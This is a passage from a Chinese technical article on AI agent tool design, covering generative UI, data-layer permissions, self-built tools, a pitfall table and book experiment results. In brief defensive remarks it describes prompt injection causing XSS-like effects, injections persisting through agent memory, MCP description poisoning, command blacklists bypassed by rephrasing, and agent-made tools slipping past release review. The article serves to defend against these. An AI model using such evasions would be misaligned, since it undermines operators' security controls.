一句判据：**独立性不只指独立模型，更指独立数据来源。** 时间或舱位若由模型填，报错一个值，整个守门员就失效。顺带一条被低估的价值：把规则写成代码不是为了省 token，是为了**防不可逆操作**——"7 天"到底是自然日还是工作日、从下单还是从发货算，自然语言的歧义在这种地方就是赔率。

---

## 十、界面与产物：生成式 UI 让应用层权限失效

Agent 输出的最后一环不一定要走文字。三种形态要分清楚，它们的信任模型完全不同：

- **声明式界面协议（A2UI 一类）**：Agent 只输出 JSON 界面清单，客户端用**受信任组件目录**（Card / Button / TextField / Table）渲染，注入不了任意代码；支持流式 JSONL 增量。
- **事件 / 传输协议（AG-UI 一类）**：管的是消息、工具调用、状态补丁怎么流式推送，可以承载 A2UI 载荷。两者互补，不是同类，选型时别当成竞品比。
- **Artifact 模式**：SQL 与可视化作为**可执行产物**交给前端执行，数据从数据库直连界面，**绕过 LLM 抄写**。数千行表格让模型复述一遍，出错率是必然的；不让它过手，就没错源。

级联表单（选"往返"才出现返程日期）取代十轮问答，这是动作空间扩展带来的最直接的体验收益——顺便说一句，安全上的因果链要写对：**成因是提示注入，效果类似 XSS，不能把整条链叫 XSS。**

真正需要警觉的是这句：**动态生成的软件会让应用层权限检查失效。** 生成的代码和你自己的代码同属一个信任域，它会漏检查、会暴露字段、会绕路径。安全目标因此要改写为："即使 AI 写错了代码，权限约束仍然不可绕过"，做法是**把信任边界下移到数据层**：

- 行级安全（RLS）按租户收口；
- 约束校验器、受控视图与存储过程；
- 每次读写携带由受信任运行时绑定的 access context（用户 / 租户 / 角色 / Agent 身份）；
- **所有访问路径不得绕过数据层直连**。

生成的 SQL / HTML 不许直接跑：只读账号、解析后仅允许批准的 `SELECT`、拒 DDL / DML / 多语句、用户值服务端参数化绑定、限查询时间与返回行数与可访问表；可视化代码跑在隔离网络 + 文件沙盒里。**这五条比"我们用 AI 生成前先审一遍"可靠得多，因为它不依赖判断。**

---

## 十一、自造工具与自我修改：给"Agent 自己写一个"留位置

工具箱不该是封闭集合。三种情况都会用到自造：缺能力（临时写一个）、格式变了（动态生成解析逻辑）、系统没有 API（当场读文档生成客户端与鉴权头）。有一条实测规律值得抄：**没有 SDK 的系统，可以先用 Computer Use 操作，再把成功序列固化成 RPA**——从"看得见"到"跑得动"，中间那一步是代码。

日志自适应闭环是很好的样板：前端解析失败 → 把原始样本与报错报给 Agent → 生成解析代码 → 虚拟浏览器自测（用视觉模型检查可视化）→ 热更新。风险也要如实说：**如果格式变化本身是 bug 而不是预期改动，自适应会把问题掩盖掉。** 所以自造路径必须挂在"预期变化"的判据下——外部契约变了才自愈，内部报错才修。

自造出来的东西算不算正式能力？答案要卡死：**运行内生成的插件重启即消失，不能被自动提升为正式能力**，仍要走 worktree + Spec + commit + PR。创建新 Agent 这件事也一样，四类常见架构缺陷可以直接当检查表：上下文管理随意（转成纯文本把缓存打没、工具循环边界有 bug）、工具描述简略且缺负面清单与参数示例、选型滞后（用了训练数据里最常见但已过时的 API）、与现有生态脱节。解法不是把规则写进提示词，而是**给一份高质量范例让它复制后再改**。

---

## 十二、踩坑清单

| 现场 | 根因 | 处置 |
| --- | --- | --- |
| 接了 5 个 MCP server，没对话窗口先没三成 | 全量 schema 注入静态前缀，成本压在每一轮 | 宿主侧改索引/延迟披露；把"看见"和"能调"拆开 |
| 换了模型还是选错工具 | 描述只写功能不写触发条件与不适用场景 | 描述按"可召回、可区分"重写，加 1~5 个真实示例 |
| `old_string` 永远匹配不上，模型反复重发 | Harness 静默规范化引号，模型看不到被改过的世界 | 传参透明；改写必须显式告知，宁可快速失败 |
| 命令黑名单加了十几条还是被打穿 | 字符串匹配挡不住语义变形 | 输入验证 → 白名单目录 → 语义解析 → 审批与旁路 |
| "我们跑在 venv 里"当成安全边界 | venv 只隔离包，不约束文件/网络/进程 | 强度阶梯：进程级 → 容器 → microVM，配额+超时+断网白名单 |
| 超时被静默杀进程，Agent 判成成功 | 失败信号丢失 | 超时/超限返回结构化错误并带最后输出 |
| 上下文溢出后越重试越炸 | 错误路径上还会调模型（停止钩子生成提交说明） | 错误路径禁用一切再调模型的副作用 + 递归深度计数 |
| 一个会话在恢复路径上失败三千余次 | 恢复路径没有上限 | 每条路径独立熔断，阈值取生产分布的经验拐点 |
| 一次注入的影响扩到之后所有任务 | 持久记忆当了放大器 | 四道边界；记忆与 Skill 写入按不可信证据处理 |
| 代码臂反而更差（K&K 39.3% vs 75.0%） | 把"代码换确定性"当成"代码换推理" | 只用于可形式化的部分；实验结论标注模型档位 |
| 生成的 SQL 直连生产库 | 应用层同信任域，权限检查会被漏掉 | 只读账号 + 语句白名单 + 参数绑定 + 边界下移到 RLS |
| Agent 自造的工具悄悄转正 | 运行内产物绕过了发布流程 | 自造必须走 worktree + PR，重启即失效 |

---

## 十三、扩展阅读：书里这些实验的实测与翻车

《深入理解 AI Agent》第四、五章带了一批可运行实验。这一节不复述它的观点，只把**数字与口径**摘出来，因为它们恰好示范了三件事：什么被验证了、什么没被验证、什么被验证为负。

**主动工具发现只赢了成本，没赢准确率（实验 4-1）**。配置是本地 `qwen3:4b`、127 个真实 schema、50,597 token 的 schema 目录、本地 `all-MiniLM-L6-v2` 索引、每轮注入 5 个 schema。结果两组都 3/3 完成任务、准确率同为 100%，**论文预期的准确率提升没有出现**；差别在成本与墙钟：主动发现 783.442 秒对全量注入 3,056.294 秒（3.90×），暴露给模型的 schema 文本是 1,251 初始 + 8,424 动态，对每任务 50,829。处理组轨迹里仍然混着无关搜索、错误 JSON 和过早结束。

这条负结果比任何正面结论都有用：**"按需披露"目前买到的是 token 与延迟，不是判断力。** 如果你的立项书里写的是"降低选错工具的概率"，得拿这个数据重讲一遍预期。同一条线路上，Anthropic 的实验报告按需检索把 Opus 4 在工具基准上的准确率从 49% 提到 74%，MCP-Zero 报告约 2800 个工具时省约 98% token——这两个是**论文报告**，和上面那个**本地小模型实测**不是一个证据等级，写进方案时要分开标注。

**跨厂商故障切换：中立格式 6/6，直传 3/6，剥离 4/6（实验 5-1）**。6 种厂商组合 × 3 种接管做法，失败原因全是厂商真实报错。数字支持正文那句"思考 = 可读文字 + 不可移植凭证"，也支持"剥掉私有格式块再带入"这条中间路线——它比直传稳，比中立格式差。

**代码执行的重发比续发省（实验 5-2）**：三种断点续写方案里，正文断点省 15%~66% 的输出 token；参数断点出现了"合法但写错"的工具调用——格式对、语义错，这是最难发现的一类。

**分上下文的双臂成本（实验 5-6）**：20 页论文双臂，质量持平，但峰值上下文 24,186 对 92,601（低 3.83×）。这一条给的是"提议者-审核者分离"的上下文收益，比质量结论可靠。

**CAD 与生成模型的差别在表示，不在好坏（实验 5-9）**：17 行 CadQuery 零偏差；Hunyuan3D-2.1 四个孔全丢、外径偏 −99.4%；改 M5→M6 时代码路线 0 次 LLM 调用，生成路线只能整体重生成且外径 +283%。两条判据值得抄下来：**产物有没有紧凑的精确描述**（法兰盘五个参数就无损，绿植没有），**精度能不能逐项量**（孔径 5mm、公差 ±0.05mm，代码产物可以导网格量）。

**创建 Agent 的臂没有同时占优（实验 5-16）**：模板臂非劣且更省，但"质量与效率同时严格占优"未出现。

最后是一条口径纪律，比单个数字更重要：**书中带 ✅ 的实验可运行，📖 依赖自行 clone 的外部仓库，🚧 是设计文档；每章的 `EXPERIMENT_LEDGER.md` 记录了运行条件、服务可用性与未完成边界。** 引用任何数字前先确认它是"实测"、"论文报告"还是"预期未复现"——三者写进方案的分量完全不同，这一条也是本篇所有百分比后面都跟着出处的原因。

---

## 总结

动作空间是供给问题，分三层看：**接口层**（MCP 三原语 + 两种传输，`tools/list` 是全量，披露策略归宿主；能力引入成本压到一条命令，信任边界也一起压进来，三类风险分别落在上下文层与执行层）、**形态层**（专用 / 通用 / Skill 各付各的账，形态选择与披露数量是两个独立决策；退回专用只有四条硬理由；描述写"何时用"、给具体例子、配 1~5 个示例；传参必须透明，静默修正会劈开模型的世界）、**代码层**（七件工具构成通用 Agent 内核，编辑接口五方案里可预测性优先，Harness 四组件缺一就退化成编故事，四象限告诉你什么时候不该上自动化）。

五类工具各有各的失控方式，别用一套纪律管全部：**感知**管返回体（超阈值按意图压缩、结构化候选带总数、截断必须显式、只读才谈缓存与并行）；**执行**管边界（防护四层的顺序不能反，venv 不是沙盒，致命三要素补上持久记忆就是四道边界）；**事件触发与用户沟通**管过滤（触发条件、过滤规则、载荷自带上下文，三件缺一就变成烧 token 的定时器）；**协作**管契约，在协作篇已经讲过。

再往外扩的两件事：**恢复与熔断**（四层故障先分类再计数，恢复三级各有隐性代价，每条路径都要上限，阈值来自生产分布，错误路径上禁止再调模型的副作用）；**代码作为思考工具**（换得来确定性，换不来因果推理，业务规则写成代码的两层价值里守门员必须是服务端真值，而自造出来的工具要走发布流程才算数）。

最后一句判断标准：**你在设计的是功能，还是边界条件。** 只改提示词，是让它这一次别犯；改这三层结构，是让它以后都没机会这么犯。

---

## 思考题

1. 你的系统里"引入一个新工具"的成本是多少？把它拆成 schema token、权限描述、审计字段、评估集补题四笔账，哪一笔最贵？
2. `tools/list` 拿到全量定义之后，你选了哪条披露策略？如果你的答案是"全量注入"，能说清它和"每轮多烧多少 token"以外的代价吗？
3. MCP description 投毒和工具返回值注入，哪个更难防？为什么延迟加载的宿主会让前者更隐蔽？
4. 为什么"形态选择"和"披露数量"必须分开谈？把一条流程知识误做成 MCP server，会长出什么样的东西？
5. 一个静默把中文弯引号改成直引号的 Harness，短期看修好了报错。请把它的长期代价写成一条可复现的失败链。
6. 七件工具的 Coding Agent 与"shell + apply_patch"的 Codex 路线，各自赌的是什么？什么情况下你会选后者？
7. 四象限里"目标模糊 × 可自动验证"被叫作高效跑偏。请举一个你项目里的实例，并说出该补的是哪一象限的条件。
8. 上下文溢出后触发停止钩子生成提交说明，为什么这条"无害的副作用"能把系统拖进死亡螺旋？你打算在哪一段拦？
9. K&K 实验里代码臂 39.3% 输给纯思考 75.0%。如果有人在评审会上引用"代码解题更准"，你要问哪三个问题？
10. 业务规则写成可执行代码之后，`expected_*` 字段的价值和守门员的位置分别是什么？为什么说时间字段由模型填写会让整套规则失效？
11. 动态生成软件让应用层权限检查失效，为什么把边界下移到数据层 RLS 比"生成前加评审"更可靠？
12. Agent 自造的工具可以解决临时缺口，为什么它不能自动转正？这条纪律防的是哪一类事故？
